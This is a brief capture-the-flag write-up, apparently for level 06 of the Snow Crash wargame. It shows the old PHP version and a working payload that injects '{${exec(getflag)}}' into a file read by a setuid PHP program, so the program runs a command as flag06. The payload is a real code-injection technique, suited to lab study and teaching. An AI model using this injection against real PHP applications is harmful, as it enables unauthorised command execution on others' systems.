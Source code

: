 # Level 06

Now, we have PHP script who do string manipulation and a level06 executable owned by flag06 who execute level06.php.

Snowcrah run an old version of php.

```sh
$ php -v
PHP 5.3.10-1ubuntu3.19 with Suhosin-Patch (cli) (built: Jul  2 2015 15:05:54)
Copyright (c) 1997-2012 The PHP Group
Zend Engine v2.3.0, Copyright (c) 1998-2012 Zend Technologies
```

## The hack:

```sh
$ echo '[x {${exec(getflag)}}]' > /tmp/inject
$ ./level06 /tmp/inject
```
